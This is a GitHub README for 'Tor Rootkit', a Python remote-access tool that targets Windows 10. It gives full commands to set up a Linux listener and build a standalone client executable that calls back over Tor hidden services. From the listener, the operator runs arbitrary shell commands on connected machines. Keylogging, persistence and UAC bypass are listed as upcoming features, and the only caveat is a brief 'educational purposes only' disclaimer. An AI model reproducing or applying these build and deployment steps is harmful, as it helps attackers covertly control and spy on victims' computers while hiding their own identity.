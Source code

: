# Tor Rootkit
[![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)
![Standalone Compilation](https://github.com/emcruise/TorRootkit/workflows/Standalone%20Compilation/badge.svg)

A Python 3 standalone Windows 10 Rootkit. The networking works over tor hidden services.


## Installation
- Clone with git:
```bash
git clone https://github.com/emcruise/TorRootkit.git
```

- Change directory to the repository:
```bash
cd ./TorRootkit
```

### Listener
The listener is designed to run on linux.

#### Prerequisites
- [Tor](https://www.torproject.org/)
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)

1. Install all pip3 dependencies:
```bash
pip3 install -r listener/requirements.txt
```

2. Run the listener:
```bash
./listener/listener.py <hiddenservice-port> <local-port>
```

### Client
The client is designed to run on Windows 10.

#### Prerequisites
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)
- Add Python3 and Pip3 to PATH

1. Change directory to client:
```bash
cd .\client
```

2. Install all pip3 dependencies:
```bash
pip3 install -r requirements.txt
```
3. Build executable from build.py:
- downloads [Tor Expert Bundle](https://www.torproject.org/download/tor/)
- bundles python3 interpreter and tor expert bundle into 1 standalone .exe file
```bash
python build.py <listener-onion-address> <listener-onion-port>
```

3. Execute the bundled client:
```bash
.\dist\client.exe
```

## Disclaimer
Use for educational purposes only.

## Features
- Standalone executable, including python interpreter and tor expert bundle (~13MB)
- the whole communication works over tor hidden services which guarantees some degree of anonymity
- Listener can handle multiple clients

## Upcoming Features
- cross-plattform compatibility
- Up- and Download functionality
- Screenshots
- Keylogging
- Persistence
- UAC-Bypass

## Listener Shell Usage
### Listener Server Shell
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the shell |
| `list` | lists all connected clients with their according index |
| `select <index>` | start shell with client |

### Client Shell
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the shell and returns to listener shell |
| `os <command>` | Executes a command in the clients shell and returns the output |

## Contribution
All contributions are appreciated.

## Credits
- [Tor](https://www.torproject.org/)
- [PyInstaller](https://www.pyinstaller.org/)
- [Colorama Font](https://pypi.org/project/colorama/)
- [PySocks](https://pypi.org/project/PySocks/)
- [Stem](https://stem.torproject.org/)

